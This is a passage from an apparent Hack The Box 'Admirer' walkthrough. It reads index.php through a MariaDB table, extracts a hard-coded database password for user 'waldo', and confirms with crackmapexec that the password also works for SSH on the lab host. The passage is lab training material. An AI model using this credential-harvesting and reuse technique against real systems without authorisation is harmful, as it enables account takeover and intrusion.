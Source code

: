 Alternatively, viewing the contents of `index.php` could also be achieved by using the following command on our Maria DB instance:

```shell
MariaDB [reverseshell]> SELECT * from shell;
+---------------------------------------------------------------------------------------------------------------------------------+
| data                                                                                                                            |
+---------------------------------------------------------------------------------------------------------------------------------+
| <!DOCTYPE HTML>                                                                                                                 |
| <!--                                                                                                                            |
|       Multiverse by HTML5 UP                                                                                                         |
|       html5up.net | @ajlkn                                                                                                           |
|       Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)                                           |
| -->                                                                                                                             |
| <html>                                                                                                                          |
|       <head>                                                                                                                         |
|               <title>Admirer</title>                                                                                                        |
|               <meta charset="utf-8" /
[..SNIP..]                                                                           |
|                         $servername = "localhost";                                                                              |
|                         $username = "waldo";                                                                                    |
|                         $password = "&<h5b~yK3F#{PaPB&dA}{H>";                                                                  |
|                         $dbname = "admirerdb";                                                                                  |
|                                                                                                                                 |
|                         // Create connection                                                                                    |
|                         $conn = new mysqli($servername, $username, $password, $dbname);                                         |
```
Finally, inside `index.php` we find another set of credentials as `waldo:&<h5b~yK3F#{PaPB&dA}{H>`

I tested these credentials for SSH using crackmapexec and it worked:

```shell
cfx:  ~/Documents/htb/admirer
→ crackmapexec ssh 10.10.10.187 -u waldo -p '&<h5b~yK3F#{PaPB&dA}{H>'
SSH         10.10.10.187    22     10.10.10.187     [*] SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
SSH         10.10.10.187    22     10.10.10.187     [+] waldo:&<h5b~yK3F#{PaPB&dA}{H>
```

